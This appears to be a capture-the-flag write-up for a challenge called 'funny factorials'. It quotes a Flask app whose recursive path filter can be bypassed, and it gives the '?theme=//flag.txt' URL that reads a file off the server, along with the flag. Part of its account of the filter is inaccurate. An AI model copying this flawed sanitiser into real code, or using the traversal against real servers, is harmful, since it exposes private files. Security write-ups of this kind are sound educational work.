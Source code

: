# funny factorials

## Description
I made a factorials app! It's so fancy and shmancy. However factorials don't seem to properly compute at big numbers! Can you help me fix it?

[funny-factorials.amt.rs](https://funny-factorials.amt.rs)

## Attachments
[app.py](./Challenge/app.py) [Dockerfile](./Challenge/Dockerfile)

## Solution
First, let's take a look at the `Dockerfile` for this challenge.

```dockerfile
FROM python:3.10-slim-buster

RUN pip3 install flask
COPY flag.txt /

WORKDIR /app
COPY app/* /app/
copy app/templates/* /app/templates/
copy app/themes/* /app/themes/

EXPOSE 5000

ENTRYPOINT ["python3", "app.py"]
```

The information that I got from the `Dockerfile` is that the `flag.txt` file is copied to the `/` directory. Now, let's take a look at the source code of the `app.py`. This is the interesting part of the `app.py`.

```python
def filter_path(path):
    # print(path)
    path = path.replace("../", "")
    try:
        return filter_path(path)
    except RecursionError:
        # remove root / from path if it exists
        if path[0] == "/":
            path = path[1:]
        print(path)
        return path

@app.route('/')
def index():
    safe_theme = filter_path(request.args.get("theme", "themes/theme1.css"))
    f = open(safe_theme, "r")
    theme = f.read()
    f.close()
    return render_template('index.html', css=theme)
```

From the snippet of the source code, we know that the `filter_path` method or function is a function to check the path entered by the user. This function will remove and replace the user input that contains `../` or `/`.
Then, for the `/` route there's an `index` function that called `filter_path` when the user choose the theme for the website. By default the value of this theme is `theme=themes/theme1.css`. Because this value can be controlled by the user it might be the vulnerability for this chalenge.

For retrieving the flag, we can bypass the `filter_path` function. As I said earlier, this function will remove `../` or `/` from the input.
For example, if we enter `theme=/` as an input the result will be like this `theme=`. But, it doesn't mean that we cannot read the flag that are located in `/flag.txt`. If we enter something like `//` it will not be removed by the function, because it doesn't satisfy any conditions in the `filter_path` function.
To get the flag, enter this URL:

```
https://funny-factorials.amt.rs/?theme=//flag.txt
```

![Flag](./flag.png)

## Flag
`amateursCTF{h1tt1ng_th3_r3curs10n_l1mt_1s_1mp0ssibl3}`